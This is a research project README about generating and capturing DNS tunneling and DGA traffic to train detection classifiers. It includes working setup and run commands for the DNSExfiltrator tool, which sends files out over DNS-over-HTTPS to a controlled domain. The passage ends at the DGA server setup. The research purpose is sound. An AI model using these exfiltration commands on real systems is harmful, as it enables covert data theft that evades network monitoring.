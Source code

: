 # Generation and Classification of DGA and DNS Tunneling Traffic

This project focuses on simulating, capturing, and analyzing Domain Generation Algorithm (DGA) and DNS tunneling traffic. It provides a framework to study malicious DNS traffic patterns and train models or tools for classification and detection.

## 📌 Objectives

- Generate DNS tunneling traffic using various tools.
- Simulate DGA traffic patterns.
- Capture and analyze DNS queries and responses.
- Classify DGA vs. DNS tunneling traffic.

## 🧰 Tools and Software Used

| Tool           | Purpose                                                                 |
|----------------|-------------------------------------------------------------------------|
| [DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) | Generate DNS tunneling traffic (data exfiltration). |
| [dnsproxy](https://github.com/AdguardTeam/dnsproxy)       | DNS proxy server supporting DoH, DoT, DoQ, DNSCrypt. |
| [CoreDNS](https://coredns.io/)                            | Pluggable DNS server for collecting and logging DNS queries. |
| [doh-server](https://github.com/m13253/dns-over-https)    | DNS-over-HTTPS server for simulating encrypted DNS traffic. |
| [dohlyzer](https://github.com/ahlashkari/DoHLyzer)           | Analyzes DoH traffic to detect anomalies and exfiltration. |

## 📦 Requirements

- DNS Server and Domain: any domain owned example: dohe.live and tunnel.dohe.live in this experiment
- DNSExfiltrator: for client and server
- dnsproxy: for client
- doh-server: for server
- Coredns: for server
  
## 🛠️ Installation


### DNSEXFILTRATOR SETUP

DNSExfiltrator is a proof-of-concept (PoC) tool designed to demonstrate how data can be exfiltrated over the DNS protocol. It works by encoding data into DNS queries, which are sent to an attacker-controlled domain. A DNS server controlled by the attacker decodes the incoming queries and reconstructs the original data.
This technique is commonly used in real-world scenarios where traditional outbound channels (HTTP, FTP, etc.) are monitored or blocked, but DNS traffic is still permitted. DNSExfiltrator helps simulate this behavior for research, detection, and defense testing.

In this project, DNSExfiltrator is used to generate labeled examples of DNS tunneling traffic. We use DNSExfiltrator to send 100 txt files over DNS to our remote server. We use DNS-over-HTTPS (DoH) protocol to send data. 

#### SERVER SETUP

- First we setup our server on any virtual machine.
  System version : Ubuntu 22.04
  
#### Coredns Installation: 

Install go version 1.21.4

```bash
sudo install golang-go
```

Install coredns from https://github.com/coredns/coredns

```bash
git clone https://github.com/coredns/coredns
cd coredns
make
```

or Install binary directly from https://github.com/coredns/coredns/releases/tag/v1.12.1

```bash
# Download the CoreDNS archive
wget https://github.com/coredns/coredns/releases/download/v1.12.1/coredns_1.12.1_linux_amd64.tgz

# Extract the archive
tar -xvzf coredns_1.12.1_linux_amd64.tgz
```

```bash
# Move the binary to /usr/local/bin (optional but recommended)
sudo mv coredns /usr/local/bin/

# Make sure it's executable (if needed)
sudo chmod +x /usr/local/bin/coredns

# Verify installation
coredns -version
```

Create Corefile inside /etc/coredns/

Corefile:
```
tunnel.dohe.live {
    file /etc/coredns/db.dohe.live
    log
    errors
}
```

Create db.dohe.live file inside /etc/coredns/

db.dohe.live :
```
$ORIGIN tunnel.dohe.live.
$TTL 60
@   IN  SOA ns1.dohe.live. admin.dohe.live. (
        2025042601 ; serial
        3600       ; refresh
        1800       ; retry
        604800     ; expire
        60         ; minimum
    )
    IN  NS  ns1.dohe.live.
    IN  A   XX.XX.XX.XX
```

Use your own domain name in place of dohe.live and the server ip address in A.

Run coredns: 

```bash
coredns --conf Corefile
```

verify using 

```bash
dig tunnel.dohe.live
```

if it returns your server ip, everything is set up correctly.


#### DNSExfiltrator Installation : 

install python version 2.7 and pip for python2: 

```bash
sudo apt update
sudo apt install python2
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```

Install DNSExfiltrator :

```bash
git clone https://github.com/Arno0x/DNSExfiltrator
cd DNSExfiltrator
python2 -m pip install -r requirements.txt
```

check if port 53 is being used and kill any processes running on port 53

```bash
sudo systemctl stop systemd-resolved
```

Run DNSExfiltrator server using :

```bash
 python2 dnsexfiltrator.py -d tunnel.dohe.live -p password
```
to keep the server running for long durations, the server can be run as a bsckground process.   

The server is now setup and any computer can send files via dns-over-https to the server using tunnel.dohe.live as domain.  
Users can change domain name and password as needed.


#### CLIENT SETUP

#### DNSExfiltrator Installation: 

System requirements : Windows, powershell

```bash
git clone https://github.com/Arno0x/DNSExfiltrator
cd DNSExfiltrator
```

To Run DNSExfiltrator (from DNSExfiltrator/release directory):

```powershell
./dnsExfiltrator.exe <file name> <domain> <password>
```

To send 100 text files we use the scripts inside DNSExfiltrator.  
gen_data.sh -> generates 100 random txt files  
exfil_data.sh -> sends the 100 txt files to our server continously for 8 hours.

We send these files over DoH and capture the traffic using wireshark.  

To send them over DoH we need dnsproxy, which sends all DNS Traffic over https using adgurad or google dns servers.

#### dnsproxy Installation: 

There are several options how to install dnsproxy.

- Grab the binary for your device/OS from the [Releases](https://github.com/AdguardTeam/dnsproxy/releases) page.
- using make build from the following repo: [dnsproxy](https://github.com/AdguardTeam/dnsproxy)


Usage : 

Run dnsproxy using :

```bash
dnsproxy.exe -l 127.0.0.1 -p 53 -u https://dns.adguard.com/dns-query -b 8.8.8.8:53
```
or
```bash
dnsproxy.exe -l 127.0.0.1 -p 53 -u https://dns.google/dns-query -b 8.8.8.8:53
```

this run dnsproxy on localhost port 53 and sends all dns requests upstream to adguard or google server over https.  
It forwards all requests to tunnel.dohe.live to our server where DNSExfiltrator is running.


The traffic captured is given in the dnsexfil_pcaps folder which is converted to csv using DoHLyzer.


### DGA SETUP 

Domain Generation Algorithms (DGAs) are techniques used by malware to algorithmically generate a large number of domain names that can be used for command-and-control (C2) communication. Instead of hardcoding a single server address, DGAs allow malware to contact different domains daily or even hourly, making it more difficult for defenders to block malicious traffic or take down C2 servers.  


#### SERVER SETUP :




